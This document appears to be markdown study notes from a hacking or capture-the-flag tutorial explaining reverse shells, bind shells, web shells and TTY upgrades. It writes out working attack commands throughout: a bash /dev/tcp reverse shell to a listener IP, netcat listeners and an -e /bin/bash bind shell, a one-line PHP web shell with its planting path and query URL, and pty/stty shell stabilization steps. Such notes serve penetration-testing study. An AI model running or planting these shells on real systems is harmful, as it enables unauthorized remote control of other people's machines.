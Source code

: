 


---

# 🐚 Types of Shells (Simplified)

When you hack into a machine, you want a way to **keep control** without running the exploit every time. That’s where **shells** come in. A shell gives you command-line access to the target.

---

## 1. 🔁 **Reverse Shell**

- The **target connects back to you**.
    
- You start a **listener** on your machine (e.g., with Netcat).
    
- You run a command on the victim that sends a connection to your listener.
    

### 🛠 Steps:

1. On your machine:
    

```bash
nc -lvnp 1234
```

2. On the target (Linux example):
    

```bash
bash -c 'bash -i >& /dev/tcp/10.10.10.10/1234 0>&1'
```

3. You now control the target!
    

💡 Reverse shells are common and quick, but **lose connection if interrupted**.

---

## 2. 📡 **Bind Shell**

- The **target listens on a port**.
    
- You connect to it with Netcat.
    

### 🛠 Steps:

1. On the target (Linux):
    

```bash
nc -lvp 1234 -e /bin/bash
```

2. On your machine:
    

```bash
nc <target-ip> 1234
```

💡 Bind shells are stable — if you lose the connection, just reconnect.

⚠️ Doesn’t work if firewalls block incoming connections.

---

## 3. 🌐 **Web Shell**

- A small script on the web server that **runs your commands**.
    
- You send commands using a browser or cURL.
    

### 🛠 Example (PHP):

```php
<?php system($_GET["cmd"]); ?>
```

Put it in:

```
/var/www/html/shell.php
```

Access in browser:

```
http://<ip>/shell.php?cmd=id
```

💡 Web shells **stay after reboot**, and **work even behind firewalls**.

⚠️ Not interactive — you have to send a new URL every time you want to run a command.

---

## 🧼 Clean Up Your Shell (TTY Upgrade)

When you get a shell (especially via Netcat), it might be **limited** (no arrow keys, tab, etc.).

### 🛠 Fix it:

1. On the shell:
    

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

2. Press `Ctrl + Z` to pause the shell.
    
3. On your machine:
    

```bash
stty raw -echo
fg
[Enter]
```

4. (Optional) Fix screen size:
    

```bash
export TERM=xterm-256color
stty rows 30 columns 120
```

Now you have a full-featured shell!

---

## ✅ Quick Recap

|Type|Who connects?|Best for|Downside|
|---|---|---|---|
|Reverse Shell|Target → You|Quick access|Breaks if connection drops|
|Bind Shell|You → Target|Reconnectable|Blocked by firewalls|
|Web Shell|Browser → Web script|Firewalled environments|Not interactive|

---
